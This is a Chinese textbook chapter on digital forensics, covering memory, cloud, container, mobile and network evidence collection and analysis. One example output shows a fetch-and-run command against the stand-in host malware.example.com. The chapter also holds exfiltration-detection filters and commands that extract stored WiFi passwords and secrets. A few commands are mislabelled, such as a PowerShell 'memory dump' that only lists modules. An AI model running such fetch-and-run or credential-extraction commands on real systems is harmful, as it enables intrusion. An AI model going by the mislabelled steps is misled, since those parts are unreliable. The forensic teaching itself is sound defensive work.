



# 第25章 数字取证 - 深度拓展

本章是数字取证的进阶篇。前面的章节介绍了取证的基本流程和常用工具，本章将从理论根基出发，深入每一个取证分支领域的核心技术、实操方法和前沿趋势。无论你是刚入门的安全从业者还是经验丰富的取证专家，都能在这里找到从"知道"到"精通"的知识路径。

## 一、数字取证的理论基础

### 1.1 数字证据的法律框架

数字取证不仅仅是技术工作，它的最终目的是为法律诉讼提供可采信的证据。因此，取证人员必须深刻理解证据的法律属性，否则再精妙的技术分析也可能在法庭上被推翻。

#### 1.1.1 证据可采性的四根支柱

法庭接受数字证据需要满足四个核心标准，每一个都有严格的技术含义：

**相关性（Relevance）**

证据必须与待证事实之间存在逻辑关联。这不是说"看起来有关就行"，而是要建立明确的因果链。例如，在一起数据泄露案件中，你发现嫌疑人电脑上有某份被泄露文件的副本——这具有相关性；但如果只是发现嫌疑人访问过公司内网，相关性就弱得多，因为内网访问是所有员工的日常行为。

**真实性（Authenticity）**

证据必须是"它声称的样子"，没有被伪造或篡改。对于数字证据，这需要通过哈希校验来证明。取证人员在获取证据时必须立即计算哈希值（至少使用 SHA-256），并在后续每次操作后重新验证。如果原始哈希与当前哈希不一致，证据的真实性就受到质疑。

**可靠性（Reliability）**

证据的产生过程必须可信。这意味着取证工具必须经过验证（NIST CFTT 项目专门测试取证工具的可靠性），取证方法必须符合行业标准，取证人员必须具备相应资质。使用未经验证的自制脚本提取证据，可能导致律师以"工具不可靠"为由申请排除证据。

**完整性（Integrity）**

证据必须保持完整，未被部分删除或修改。完整性不仅指文件内容的完整，还包括元数据（时间戳、权限、扩展属性）的完整。一个常见的错误是取证人员在复制文件时丢失了元数据——例如使用普通 `cp` 命令复制证据文件，导致访问时间被更新。

#### 1.1.2 证据链管理（Chain of Custody）

证据链是数字取证的生命线。它记录证据从被发现到呈堂的每一个经手环节，确保"证据没有被掉包或污染"。

**证据链记录模板：**

| 时间戳 | 操作人 | 操作内容 | 证据状态 | 哈希值 | 备注 |
|--------|--------|----------|----------|--------|------|
| 2024-03-15 09:30 | 张三（现场勘查员） | 现场发现并标记硬盘 | 原始硬盘，已封存 | SHA-256: a1b2c3... | 嫌疑人办公桌第二层抽屉 |
| 2024-03-15 10:15 | 张三 → 李四（移交） | 证据移交至实验室 | 封条完好 | 同上 | 移交单编号：E-2024-0315-001 |
| 2024-03-15 11:00 | 李四（取证分析师） | 使用 FTK Imager 制作镜像 | 镜像完成，原始盘封存 | 镜像SHA-256: a1b2c3... | 哈希校验通过 |
| 2024-03-15 14:00 | 李四 | 从镜像中提取关键文件 | 分析副本 | 提取文件哈希: d4e5f6... | 分析过程已录像 |

**证据链中断的后果：**

证据链一旦出现断裂——比如某个时间段内证据无人看管、没有记录交接过程、或者哈希校验不通过——辩护律师会以"证据可能已被篡改"为由申请排除。在数字取证中，这比传统物证更容易发生，因为数字数据可以在毫秒级别被修改而不留痕迹。因此，每一秒的证据保管记录都至关重要。

#### 1.1.3 国际取证标准体系

数字取证已经形成了一套完整的国际标准体系，取证人员应当熟悉这些标准并在工作中遵循：

| 标准编号 | 名称 | 适用阶段 | 核心内容 |
|----------|------|----------|----------|
| ISO/IEC 27037 | 数字证据识别、收集、获取和保存指南 | 证据获取 | 定义了识别、收集、获取和保全数字证据的基本程序 |
| ISO/IEC 27041 | 事件调查方法保证 | 调查规划 | 确保调查方法适当性和充分性的指南 |
| ISO/IEC 27042 | 数字证据分析和解释 | 分析阶段 | 数字证据分析和解释的程序和要求 |
| ISO/IEC 27043 | 事件调查原则和过程 | 全流程 | 定义了事件调查的通用原则和过程模型 |
| ISO/IEC 27050 | 电子发现 | 法律诉讼 | 电子发现（eDiscovery）的规范和流程 |

**美国 NIST SP 800-86** 是另一个重要参考，它将取证过程定义为四个阶段：收集（Collection）、检验（Examination）、分析（Analysis）和报告（Reporting），简称 CEAR 模型。NIST 还维护了 CFTT（Computer Forensic Tool Testing）项目，对主流取证工具进行系统性测试，测试报告可从 https://www.nist.gov/programs-projects/computer-forensic-tool-testing 获取。

### 1.2 取证方法论深度解析

#### 1.2.1 系统化取证流程

取证不是"拿到硬盘就开分析"的随意操作，而是一套严格的方法论。以下是经过实战验证的完整流程：



**每个阶段的关键原则：**

- **识别阶段**：不要急于动手，先评估案件性质（刑事/民事/内部调查），确定证据范围，制定取证计划。过早动手可能导致证据污染。
- **收集阶段**：遵循"先易失后持久"的优先级——先收集内存、网络连接等易失性数据，再处理磁盘等持久性数据。每一步都要记录操作时间和哈希值。
- **检验阶段**：在镜像副本上操作，永远不要动原始证据。使用经过验证的工具提取数据，记录所有工具版本和参数。
- **分析阶段**：保持客观，不要先入为主。建立假设并寻找反证，而不是只寻找支持假设的证据。
- **报告阶段**：技术报告应当让非技术人员（律师、法官）也能理解核心结论。避免过多技术术语，必要时用类比解释。

#### 1.2.2 证据保全的铁律

在实际取证中，以下原则是不可违反的铁律：

**最小化原则**：只收集与案件相关的证据。无差别地复制嫌疑人整个硬盘上的所有数据，在法律上可能构成对隐私的过度侵犯。取证前应与法律顾问确定证据收集范围。

**原始性原则**：永远在镜像副本上分析，保留原始证据不动。对于磁盘镜像，使用硬件写保护器（如 Tableau TX1）确保在连接原始硬盘时不可能写入任何数据。

**可重复性原则**：分析过程必须可以被独立第三方重复验证。这意味着你需要记录：使用了哪个版本的工具、哪些参数、在什么环境下运行。如果其他取证人员使用相同的方法无法得到相同的结果，你的分析结论就站不住脚。

**文档化原则**：从你接触证据的那一刻起，每一个操作都必须记录在案。"没有记录的操作等于没有发生"——这是取证界的金科玉律。

## 二、内存取证深度解析

### 2.1 为什么内存取证如此重要

内存取证在现代数字取证中的地位正在迅速上升，原因有三：

第一，加密技术的普及使得传统磁盘取证变得困难。当嫌疑人使用 BitLocker、VeraCrypt 等全盘加密工具时，直接分析磁盘只能看到加密后的乱码。但当系统运行时，加密密钥必然存在于内存中——这就是内存取证的突破口。

第二，无文件恶意软件（Fileless Malware）正在成为主流攻击手段。这类恶意软件不在磁盘上留下文件，而是驻留在内存中、利用 PowerShell 等合法工具执行恶意操作。传统的磁盘取证对这类威胁完全无能为力。

第三，内存中保存着大量运行时信息：当前的网络连接、剪贴板内容、已解密的文档、浏览器中打开的网页、命令行历史——这些都是磁盘上找不到或已被清除的宝贵证据。

### 2.2 内存采集技术

内存采集是内存取证的第一步，也是最关键的一步。采集过程必须尽可能减少对内存内容的干扰。

#### 2.2.1 软件采集

**Linux 系统内存采集：**

```bash
# 方法1：使用 LiME（Linux Memory Extractor）内核模块
# 先编译 LiME 模块
git clone https://github.com/504ensicsLabs/LiME.git
cd LiME/src
make  # 需要内核头文件

# 加载模块并转储内存到指定路径
sudo insmod lime-$(uname -r).ko "path=/evidence/memory.lime format=lime"

# 验证内存镜像的完整性
sha256sum /evidence/memory.lime > /evidence/memory.lime.sha256

# 卸载模块
sudo rmmod lime

# 方法2：使用 /proc/kcore（需要 root 权限）
sudo cp /proc/kcore /evidence/kcore.dump
# 注意：/proc/kcore 是虚拟文件，大小等于物理内存 + 4GB 虚拟地址空间

# 方法3：使用 AVML（Azure VM Linux 内存采集，适用于云环境）
wget https://github.com/microsoft/AVML/releases/latest/download/avml
chmod +x avml
sudo ./avml /evidence/memory.lime
```

**Windows 系统内存采集：**

```powershell
# 方法1：使用 WinPMEM
# 下载：https://github.com/Velocidex/WinPmem/releases
winpmem_mini_x64.exe memory.raw
# 输出的 raw 文件可以直接用 Volatility 分析

# 方法2：使用 FTK Imager（图形界面）
# File → Capture Memory → 选择输出路径
# 会同时生成 .mem 文件和 .dmp 文件

# 方法3：使用 DumpIt（最简单的一键工具）
DumpIt.exe
# 自动在当前目录生成内存转储文件

# 方法4：使用 PowerShell 内存转储（需要管理员权限）
# 利用 Windows 内置的 WriteDump 功能
Get-Process | ForEach-Object {
    $_.Modules | Select-Object FileName, FileVersion, Size
}
```

#### 2.2.2 硬件采集与高级技术

**冷启动攻击（Cold Boot Attack）：**

冷启动攻击利用了 DRAM 芯片在断电后数据不会立即消失的物理特性。在低温环境下（使用压缩空气或液氮冷却内存芯片），DRAM 中的数据可以保留数秒到数分钟。攻击者在系统运行时（或刚关机后）快速重启到一个自定义的操作系统，转储内存中的残留数据。

这种技术对于获取加密密钥特别有效——BitLocker、FileVault 等全盘加密方案的密钥在系统运行时一定存在于内存中，而冷启动攻击可以绕过"需要系统运行"的限制。

**DMA 攻击（Direct Memory Access）：**

通过 Thunderbolt、FireWire、PCIe 等支持 DMA 的接口，外部设备可以直接读取系统内存，不需要经过 CPU 或操作系统安全检查。工具如 Inception（https://github.com/carmaa/inception）可以利用这一特性在几秒内转储内存。

现代系统已开始部署 Thunderbolt 安全级别（如 macOS 的"安全启动"和 Windows 的"内核 DMA 保护"）来防御此类攻击，但许多旧系统仍然脆弱。

### 2.3 Volatility 内存取证实战

Volatility 是内存取证领域的事实标准框架。下面以一次实际的恶意软件调查为例，展示完整的内存取证工作流。

#### 2.3.1 环境准备与基础识别

```bash
# 安装 Volatility 3（Python 3 版本）
git clone https://github.com/volatilityfoundation/volatility3.git
cd volatility3
pip3 install -r requirements.txt

# 第一步：识别操作系统类型和版本
python3 vol.py -f /evidence/memory.lime banners
# 输出示例：
# Volatility 3 Framework 2.5.0
# Banner: Linux version 5.15.0-91-generic (buildd@lcy02-amd64-079)

# 第二步：如果识别失败，尝试自动检测
python3 vol.py -f /evidence/memory.lime linux.info.Info
```

#### 2.3.2 进程分析——发现异常进程

```bash
# 列出所有进程及其父子关系
python3 vol.py -f /evidence/memory.lime linux.pslist.PsList

# 输出示例（简化）：
# PID    PPID   COMM          UID   START_TIME
# 1      0      systemd       0     2024-03-15 08:00:01
# 742    1      sshd          0     2024-03-15 08:00:05
# 1523   742    bash          1000  2024-03-15 09:15:30
# 1847   1523   python3       1000  2024-03-15 09:16:02
# 2103   1      kworker/0:1   0     2024-03-15 08:00:03

# 以进程树形式查看，更直观地发现父子关系
python3 vol.py -f /evidence/memory.lime linux.pstree.PsTree

# 检查隐藏进程（DKOM 攻击检测）
# 比较 pslist 和 pidhashtable 的结果差异
python3 vol.py -f /evidence/memory.lime linux.pslist.PsList > pslist.txt
python3 vol.py -f /evidence/memory.lime linux.pidhashtable.PIDHashTable > pidhash.txt
diff pslist.txt pidhash.txt
# 如果 pidhash 中有 pslist 中没有的进程，说明有进程被隐藏
```

**如何判断哪些进程是可疑的：**

1. 父子关系异常：一个 Web 服务器进程（如 nginx）突然产生了 bash 子进程——这可能是远程命令执行
2. 进程名伪装：名为 `kworker` 但不在正常的 kworker 路径下，或名为 `[migration]` 但 PID 不在内核线程范围
3. 命令行参数异常：正常的 python3 进程不会有 `-c 'import socket;...'` 这样的内联命令
4. 启动时间异常：在非工作时间启动的进程值得关注

#### 2.3.3 网络连接分析

```bash
# 查看所有网络连接
python3 vol.py -f /evidence/memory.lime linux.sockstat.Sockstat

# 输出示例：
# TCP      192.168.1.100:22     10.0.0.50:54321     ESTABLISHED  sshd/742
# TCP      192.168.1.100:80     0.0.0.0:0           LISTEN        nginx/1102
# TCP      192.168.1.100:4444   10.0.0.50:12345     ESTABLISHED  python3/1847
# UDP      0.0.0.0:53           0.0.0.0:0           -             dnsmasq/891

# 分析关键信息：
# - python3/1847 监听在 4444 端口（Metasploit 默认端口）且有外部连接——高度可疑
# - sshd 的连接来自 10.0.0.50，需要确认是否为已知管理员 IP

# 查看完整的 socket 信息（包括套接字缓冲区数据）
python3 vol.py -f /evidence/memory.lime linux.sockstat.Sockstat --dump
```

#### 2.3.4 提取命令行历史和环境变量

```bash
# 提取所有进程的命令行参数
python3 vol.py -f /evidence/memory.lime linux.proc.Maps --pid 1847

# 提取环境变量（可能包含密码、API密钥等敏感信息）
python3 vol.py -f /evidence/memory.lime linux.bash.Bash
# 输出示例：
# PID    Process  CommandTime          Command
# 1523   bash     2024-03-15 09:15:45  wget http://malware.example.com/payload.sh
# 1523   bash     2024-03-15 09:15:50  chmod +x payload.sh
# 1523   bash     2024-03-15 09:15:52  ./payload.sh
# 1523   bash     2024-03-15 09:16:00  python3 -c 'import socket,...'
```

#### 2.3.5 提取恶意文件和加密密钥

```bash
# 从内存中提取文件（例如提取恶意脚本）
python3 vol.py -f /evidence/memory.lime linux.proc.Maps --pid 1847 --dump
# 提取的文件保存在当前目录下

# 搜索内存中的特定字符串（如加密密钥、密码）
python3 vol.py -f /evidence/memory.lime linux.pagestrings.PageStrings \
    --grep "BEGIN RSA PRIVATE KEY"

# 搜索可能的加密密钥
strings memory.lime | grep -E "(aes|des|rsa|private|secret|password|key)" > potential_keys.txt

# 在 Windows 内存中提取 BitLocker 密钥（Volatility 2 示例）
# vol.py -f memory.raw --profile=Win10x64 bitlocker
# 密钥通常以 FVEK (Full Volume Encryption Key) 的形式存在于内存中
```

### 2.4 反内存取证技术与应对

攻击者也会使用反取证技术来对抗内存取证：

**内存擦除**：恶意软件在检测到取证工具时自动擦除自身在内存中的痕迹。应对方法是使用硬件级采集（如 DMA）而非软件级采集，因为硬件采集不会被恶意软件检测到。

**内存加密**：某些高级恶意软件会对自身的内存区域进行加密，只在执行时短暂解密。应对方法是进行多次采样——在不同的时间点多次转储内存，比较差异可以发现被加密的区域。

**进程注入与迁移**：恶意代码注入到合法进程中（如 svchost.exe），使自身在进程列表中不可见。应对方法是分析进程的内存映射，查找不属于该进程正常模块的异常代码段。

## 三、云取证深度解析

### 3.1 云取证的核心挑战

云取证与传统取证有本质不同——你面对的不再是物理硬盘和网线，而是由云服务提供商控制的虚拟化环境。这带来了三个根本性的挑战：

**证据的可访问性**：在传统取证中，执法人员可以扣押物理设备；但在云环境中，你不能直接进入数据中心拆服务器。你只能通过云服务提供商提供的 API 获取数据，而提供商可能因为合规要求、技术限制或商业考虑而拒绝配合。

**数据的多租户性**：你的客户的虚拟机可能与其他数千个虚拟机共享同一台物理服务器。取证时你不能影响其他租户的服务，也不能获取其他租户的数据——即使它们在物理上存储在同一块硬盘上。

**数据的分布式性**：一份云应用的数据可能分散在多个数据中心、多个地区、甚至多个国家。日志存储在一个区域，数据库在另一个区域，CDN 缓存在全球各地——你必须知道去哪里找每一种证据。

### 3.2 IaaS 取证实战

IaaS（Infrastructure as a Service）是最接近传统取证的云服务模型，因为你面对的是虚拟机和虚拟磁盘。

#### 3.2.1 虚拟机快照与内存转储

```bash
# AWS：创建实例快照（包含内存状态的快照）
aws ec2 create-snapshot \
    --volume-id vol-0123456789abcdef0 \
    --description "Forensic snapshot for case 2024-0315" \
    --tag-specifications 'ResourceType=snapshot,Tags=[{Key=CaseID,Value=2024-0315}]'

# AWS：创建内存转储（需要先停止实例）
aws ec2 stop-instances --instance-ids i-0123456789abcdef0
aws ec2 create-instance-export-task \
    --instance-id i-0123456789abcdef0 \
    --target-environment citrix \
    --export-to-s3-task DiskImageFormat=VMDK,ContainerFormat=ova,S3Bucket=forensics-evidence

# Azure：导出虚拟机磁盘
az disk grant-access \
    --resource-group forensic-rg \
    --name evidence-disk \
    --access-level Read \
    --duration-in-seconds 86400
# 获取 SAS URL 后下载磁盘镜像

# GCP：创建磁盘快照
gcloud compute disks create evidence-snapshot \
    --source-disk projects/proj/zones/us-central1-a/disks/suspect-disk \
    --source-disk-zone us-central1-a
```

#### 3.2.2 云存储取证

```bash
# AWS S3：列举并下载证据对象
aws s3 ls s3://suspect-bucket/ --recursive > s3_listing.txt
aws s3 sync s3://suspect-bucket/ /evidence/s3_backup/ --request-payer requester

# 获取 S3 访问日志（如果已启用）
aws s3api get-bucket-logging --bucket suspect-bucket
aws s3 cp s3://access-logs-bucket/suspect-bucket/ /evidence/s3_access_logs/ --recursive

# Azure Blob：下载容器内容
az storage blob download-batch \
    --source suspect-container \
    --destination /evidence/azure_blob/ \
    --account-name suspectstorage
```

#### 3.2.3 云日志分析

云环境中的日志是取证的核心数据源：

```bash
# AWS CloudTrail：分析 API 调用日志
# 查找异常的控制台登录
aws cloudtrail lookup-events \
    --lookup-attributes AttributeKey=EventName,AttributeValue=ConsoleLogin \
    --start-time 2024-03-14T00:00:00Z \
    --end-time 2024-03-16T00:00:00Z

# 查找安全组变更（攻击者可能开放端口）
aws cloudtrail lookup-events \
    --lookup-attributes AttributeKey=EventName,AttributeValue=AuthorizeSecurityGroupIngress

# AWS VPC Flow Logs：分析网络流量
# 下载 Flow Logs 到本地分析
aws s3 cp s3://vpc-flow-logs-bucket/ /evidence/vpc_flow_logs/ --recursive

# 解析 VPC Flow Logs 并提取异常连接
awk -F' ' '$12 != "ACCEPT" && $12 != "-" {print $0}' /evidence/vpc_flow_logs/*.log > rejected_traffic.txt
# 字段说明：$7=源IP, $8=目标IP, $11=端口, $12=操作(ACCEPT/REJECT)

# Azure：查询活动日志
az monitor activity-log list \
    --resource-group suspect-rg \
    --start-time 2024-03-14T00:00:00Z \
    --query "[?contains(operationName.value, 'write')]" \
    --output table

# GCP：查询审计日志
gcloud logging read \
    'protoPayload.authenticationInfo.principalEmail!="admin@example.com" AND timestamp>="2024-03-14T00:00:00Z"' \
    --project suspect-project \
    --format json > gcp_audit.json
```

### 3.3 容器与 Kubernetes 取证

容器化环境的取证比传统 VM 更具挑战性，因为容器的生命周期短暂——一个容器可能只存在几秒就被销毁，其内部数据也随之消失。

#### 3.3.1 Docker 容器取证

```bash
# 列出所有运行中和已停止的容器（包括已停止的也包含证据）
docker ps -a --format "table {{.ID}}\t{{.Image}}\t{{.Status}}\t{{.CreatedAt}}"

# 导出容器的文件系统（即使容器已停止）
docker export <container_id> -o /evidence/container_fs.tar

# 保存容器镜像（包含所有层）
docker save <image_name> -o /evidence/container_image.tar

# 查看容器的详细配置（包含环境变量、挂载点等敏感信息）
docker inspect <container_id> > /evidence/container_inspect.json

# 查看容器日志
docker logs <container_id> > /evidence/container_logs.txt 2>&1

# 提取容器的网络命名空间信息
PID=$(docker inspect --format '{{.State.Pid}}' <container_id>)
nsenter -t $PID -n ss -tulnp > /evidence/container_network.txt
nsenter -t $PID -n netstat -anop > /evidence/container_connections.txt

# 导出容器的内存使用情况
# 注意：Docker 不直接支持内存转储，需要通过 cgroups 或 /proc
cat /sys/fs/cgroup/memory/docker/<container_full_id>/memory.usage_in_bytes
```

#### 3.3.2 Kubernetes 集群取证

```bash
# 导出集群中所有资源的状态
kubectl get all --all-namespaces -o yaml > /evidence/k8s_all_resources.yaml

# 查看可疑 Pod 的详细信息
kubectl describe pod <pod_name> -n <namespace> > /evidence/pod_description.txt

# 导出 Pod 日志（即使 Pod 已终止）
kubectl logs <pod_name> -n <namespace> --previous > /evidence/pod_logs_previous.txt

# 查看 Pod 中容器的进程列表
kubectl exec <pod_name> -n <namespace> -- ps aux > /evidence/pod_processes.txt

# 检查可疑的 CronJob（可能用于持久化后门）
kubectl get cronjobs --all-namespaces -o yaml > /evidence/k8s_cronjobs.yaml

# 检查 ClusterRole 和 ClusterRoleBinding（权限提升线索）
kubectl get clusterrolebindings -o yaml > /evidence/k8s_clusterrolebindings.yaml

# 检查 Secret（可能泄露的凭证）
kubectl get secrets --all-namespaces -o yaml > /evidence/k8s_secrets.yaml

# 查看审计日志（如果已启用 K8s Audit Logging）
kubectl logs -n kube-system -l component=kube-apiserver --since=72h > /evidence/k8s_audit.log
```

**Kubernetes 取证的关键检查点：**

1. **异常 Pod**：检查是否有未通过正常 CI/CD 流程部署的 Pod，特别是那些使用 `hostNetwork: true` 或 `privileged: true` 的 Pod
2. **ServiceAccount 令牌**：检查是否有 ServiceAccount 令牌被异常使用
3. **etcd 快照**：etcd 存储了集群的所有状态，获取 etcd 快照可以获得完整的集群配置
4. **网络策略**：检查是否有被修改的 NetworkPolicy，攻击者可能放宽网络策略以便数据外传

## 四、移动设备取证深度解析

### 4.1 移动设备取证的层次模型

移动设备取证按照侵入程度从低到高分为四个层次，每个层次获取的数据量和风险都不同：



**逻辑提取**：通过操作系统提供的接口（如 iTunes 备份协议、ADB）获取数据。这是最安全的方法，不会修改设备状态，但只能获取操作系统允许访问的数据——例如，iOS 的逻辑提取无法获取已删除的短信。

**文件系统提取**：获取设备的完整文件系统，包括操作系统文件和应用沙盒外的数据。这通常需要设备已 Root（Android）或越狱（iOS）。可以获取已删除数据的残留。

**物理提取**：直接读取设备的存储芯片，获取比特级的原始数据。这需要利用设备的引导加载程序漏洞或硬件接口。获取的数据最完整，包括未分配空间中的已删除数据。

**芯片级提取**：拆卸设备的存储芯片，使用专业设备（如 PC-3000 Flash）直接读取。这是最后的手段，适用于设备损坏或软件方法全部失效的情况。需要无尘环境和精密焊接设备。

### 4.2 Android 取证实战

```bash
# ADB 基础取证命令
# 确认设备连接
adb devices -l

# 提取设备基本信息
adb shell getprop > /evidence/android_props.txt
# 包含设备型号、Android版本、序列号等

# 提取已安装应用列表
adb shell pm list packages -f > /evidence/installed_packages.txt

# 提取短信数据库（需要 root）
adb pull /data/data/com.android.providers.telephony/databases/mmssms.db /evidence/

# 提取通话记录
adb pull /data/data/com.android.providers.contacts/databases/contacts2.db /evidence/

# 提取 WhatsApp 聊天记录（需要 root）
adb pull /data/data/com.whatsapp/databases/msgstore.db /evidence/
adb pull /data/data/com.whatsapp/databases/wa.db /evidence/

# 提取浏览器历史
adb pull /data/data/com.android.chrome/app_chrome/Default/History /evidence/chrome_history

# 提取 WiFi 连接记录（包含连接过的 WiFi 名称和密码）
adb shell cat /data/misc/wifi/WifiConfigStore.xml > /evidence/wifi_config.xml

# 完整备份（逻辑提取，不需要 root）
adb backup -all -f /evidence/android_backup.ab
# 注意：许多应用可以拒绝备份，加密备份需要密码

# 使用 ADB shell 提取文件系统元数据
adb shell ls -laR /sdcard/ > /evidence/sdcard_listing.txt
adb shell stat /sdcard/DCIM/Camera/IMG_20240315_*.jpg > /evidence/photo_metadata.txt
```

**Android 关键取证位置：**

| 位置 | 数据类型 | 路径 |
|------|----------|------|
| 短信 | 短信和彩信 | /data/data/com.android.providers.telephony/databases/mmssms.db |
| 联系人 | 通讯录 | /data/data/com.android.providers.contacts/databases/contacts2.db |
| 通话记录 | 呼叫历史 | /data/data/com.android.providers.contacts/databases/contacts2.db |
| WiFi | 已保存的WiFi | /data/misc/wifi/WifiConfigStore.xml |
| 定位 | 位置历史 | /data/data/com.google.android.gms/databases/ |
| 应用数据 | 各应用私有数据 | /data/data/<package_name>/ |
| 浏览器 | 浏览历史/书签 | /data/data/com.android.chrome/ |
| 下载 | 下载文件 | /sdcard/Download/ |
| 照片 | 拍摄的照片 | /sdcard/DCIM/Camera/ |
| 日志 | 系统日志 | /data/log/ |

### 4.3 iOS 取证关键点

iOS 的安全模型比 Android 更严格，取证难度更大：

**iOS 安全启动链**：每一步都验证上一步的签名——BootROM → iBoot → Kernel → SEP。这意味着除非找到硬件漏洞（如 checkm8），否则无法绕过启动链验证进行物理提取。

**数据保护类别**：iOS 使用四种类别保护文件：
- `NSFileProtectionComplete`：设备锁定时文件完全加密，解锁时需要用户密码
- `NSFileProtectionUnlessOpen`：设备锁定时文件加密，但已打开的文件可继续访问
- `NSFileProtectionUntilFirstAuthentication`：首次解锁后，即使设备重新锁定也能访问
- `NSFileProtectionNone`：只要设备启动就能访问

**关键取证路径**（需要越狱或 iTunes 备份）：

```text
# iTunes 备份中的关键文件
Manifest.db              # 备份中所有文件的映射表
HomeDomain/Library/SMS/sms.db           # 短信
HomeDomain/Library/AddressBook/         # 通讯录
HomeDomain/Library/Caches/              # 应用缓存
MediaDomain/Library/SMS/Attachments/    # 短信附件
RootDomain/Library/Preferences/         # 系统设置
WirelessDomain/Library/Preferences/     # WiFi 设置
```

## 五、网络取证深度解析

### 5.1 全流量捕获与分析

全流量捕获（Full Packet Capture, FPC）是网络取证的基础——它记录网络上的每一个数据包，为事后分析提供完整的原始数据。

#### 5.1.1 流量捕获

```bash
# 使用 tcpdump 捕获全流量
# -i eth0: 指定网卡
# -w: 写入文件
# -G: 每 3600 秒轮转一个文件
# -Z: 自动压缩
sudo tcpdump -i eth0 -w /evidence/capture_%Y%m%d_%H%M%S.pcap -G 3600 -z gzip

# 只捕获特定网段的流量
sudo tcpdump -i eth0 -w /evidence/internal.pcap net 192.168.1.0/24

# 使用 dumpcap（Wireshark 命令行工具，性能更好）
dumpcap -i eth0 -b filesize:100000 -b files:100 -w /evidence/capture.pcapng
# 每个文件最大 100MB，最多保留 100 个文件

# 使用 networkminer 进行实时文件提取
# NetworkMiner 可以从 pcap 中自动提取文件、图片、凭据
```

#### 5.1.2 Wireshark 高级过滤

Wireshark 的显示过滤器是网络取证的核心技能：

```text
# 基础协议过滤
http                          # 只显示 HTTP 流量
dns                           # 只显示 DNS 查询
tls.handshake                 # TLS 握手过程
tcp.flags.syn == 1            # TCP SYN 包（连接发起）

# 恶意流量检测过滤
# 查找异常 DNS 查询（DGA 域名通常很长且随机）
dns.qry.name matches "[a-z]{20,}" and dns.qry.name contains "."

# 查找可能的 C2 通信（定期心跳）
tcp.stream eq 42 and tcp.len > 0

# 查找数据外传（大量出站数据）
tcp.srcport > 1024 and ip.dst != 192.168.0.0/16 and tcp.len > 1000

# 查找可疑的 HTTP POST（可能的数据上传）
http.request.method == "POST"

# 查找 Base64 编码的数据（常见于 Web Shell 通信）
http.request.uri matches "[A-Za-z0-9+/=]{100,}"

# 提取传输的文件
# File → Export Objects → HTTP → Save All
# 或命令行：
tshark -r capture.pcap --export-objects http,/evidence/exported_files/
```

#### 5.1.3 DNS 日志分析

DNS 日志是网络取证中最容易被忽视但价值极高的数据源：

```bash
# 从 pcap 中提取所有 DNS 查询
tshark -r capture.pcap -T fields -e dns.qry.name -e dns.qry.type -e dns.a \
    | sort | uniq -c | sort -rn > /evidence/dns_queries.txt

# 检测 DNS 隧道（数据通过 DNS 外传的迹象）
# 子域名异常长（通常超过 50 个字符）
tshark -r capture.pcap -Y "dns.qry.name.len > 50" \
    -T fields -e dns.qry.name > /evidence/long_dns_queries.txt

# 检测 DGA 域名（域名生成算法生成的随机域名）
# 特征：域名由随机字符组成，查询频率高，成功率低
